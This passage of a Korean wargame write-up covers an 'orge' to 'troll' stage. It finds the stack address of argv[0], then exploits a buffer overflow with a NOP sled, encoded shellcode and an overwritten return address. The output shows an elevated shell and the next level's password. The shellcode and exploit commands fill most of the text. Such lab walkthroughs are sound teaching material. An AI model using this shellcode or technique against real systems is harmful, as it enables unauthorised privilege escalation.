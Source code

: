 실제 exploit 을 위해서는 명령실행환경에서의 `agv[0]`의 위치를 정확하게 알아야 한다. 


### 5.1 위치 출력하도록 코드 빌드 

앞에서도 확인을 했지만 현재는 운이 좋아 소스를 빌드하여 위치를 출력하도록하여 알아낼 수 있다. 절대 path 로 실행하는지, 상대 path 로 실행하는지에 따라서 명령어 string 길이가 다르기 때문에 위치가 서로 다른 것을 알 수 있다.

#### 5.1.1 절대 path 실행

```bash
$ /home/orge/`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`  
argv[0] : 0xbffffcfd
argc must be two!  
```

#### 5.1.2 상대 path 실행

```bash
$ ./`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` 
argv[0] : 0xbffffd18
argc must be two! 
```

### 5.2 공격

혼동이 없도록 절대 path 로 실행한 경우을 이용하고 `argv[0]` 앞부분에는 `/home/org/` 값이 들어갈테니깐 그 뒤에 NOP 를 충분히 넣고 그 중간에 `$pc` 가 떨어지도록하면 공격 가능할 것 같다. 

아래 stack memory 는 **GDB 실행해서 잡은 것**이므로 **실제로는 이보다 `0x40` 정도 stack 이 위에 잡히게 되는 것**을 고려하자.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage8-3.png)

그래서 선택한 값은 `0xbffffd04`

```bash
$ /home/orge/`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44 + "\x04\xfd\xff\xbf"'`  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAýü ¿
bash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
```

## 6. 다음 단계 정보

```bash
bash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)

bash$ my-pass
euid = 508
aspirin  
```

